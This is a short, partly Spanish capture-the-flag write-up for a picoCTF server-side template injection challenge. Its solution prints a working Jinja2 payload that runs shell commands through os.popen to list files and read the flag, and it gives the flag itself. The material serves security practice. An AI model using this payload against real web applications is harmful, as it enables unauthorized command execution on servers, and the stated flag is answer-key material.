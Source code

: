 ## Descripción
I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)

I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:51040/)!

## Pistas
1. Server Side Template Injection
2. Why is blacklisting characters a bad idea to sanitize input?
## Solución 1
1. Usando este payload podemos ver los archivos `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}`
2. Sustituimos `ls` por `cat flag`
3. Obtenemos la bandera `picoCTF{sst1_f1lt3r_byp4ss_ece726e9}`
## Referencias
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/